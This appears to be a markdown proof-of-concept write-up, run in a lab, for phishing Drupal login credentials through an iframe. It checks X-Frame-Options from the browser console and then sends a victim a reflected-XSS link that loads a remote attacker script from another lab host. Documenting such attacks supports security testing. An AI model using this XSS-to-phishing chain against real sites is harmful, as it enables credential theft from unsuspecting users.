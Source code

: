 # [Phish] Iframe Login Page

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [check if target login page iframe-able] navigate to target application in web browser

http://192.168.5.17

2. [check if target login page iframe-able] open developer console and execute following code

```
const url = "http://192.168.5.17/user/login";
const req = new XMLHttpRequest();
req.open("GET", url, false);
req.send(null);
console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
```

* **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginDrupal.js></script>
```

4. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

![Image](screenshots/Drupal_-_iframe_login_-_1-1.png)
